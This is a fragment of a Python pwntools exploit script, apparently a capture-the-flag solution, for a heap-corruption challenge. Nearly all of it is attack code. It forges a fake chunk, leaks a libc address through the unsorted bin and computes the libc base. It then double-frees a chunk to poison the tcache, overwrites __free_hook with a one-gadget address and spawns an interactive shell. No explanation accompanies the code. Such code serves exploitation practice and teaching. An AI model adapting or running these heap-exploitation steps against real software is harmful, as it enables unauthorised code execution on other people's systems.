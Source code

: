 ```py
    #Malloc(0x60,'a'*19+p64(0xfff7dcfa00000000)+p64(0x21)+'a'*0x10+p64(0x20)+p64(0x21)+'a'*8+p64(0x602060))#0x60203d
    Malloc(0x70,'a'*19+p64(0xfff7dcfa00000000)+p64(0x421)+'a'*0x28+p64(0x602060))#fake chunk
    Free()#unsorted bin leak
    Info()
    p.recvuntil('Name :')
    main_arena = u64(p.recv(8))-96
    libc_base = main_arena - offset
    log.success('libc base => ' + hex(libc_base))
    #get shell
    free_hook = libc_base + libc.symbols['__free_hook']
    log.success('free hook addr => ' + hex(free_hook))
    shell_addr = libc_base + gadgets[1]
    Malloc(0x80,'1'*8)
    Free()
    Free()
    Malloc(0x80,p64(free_hook-0x10))
    Malloc(0x80,'a'*8)
    log.success('before hack')
    Malloc(0x80,'a'*0x10+p64(shell_addr))
    Free()
    p.interactive()
    
exp()

```
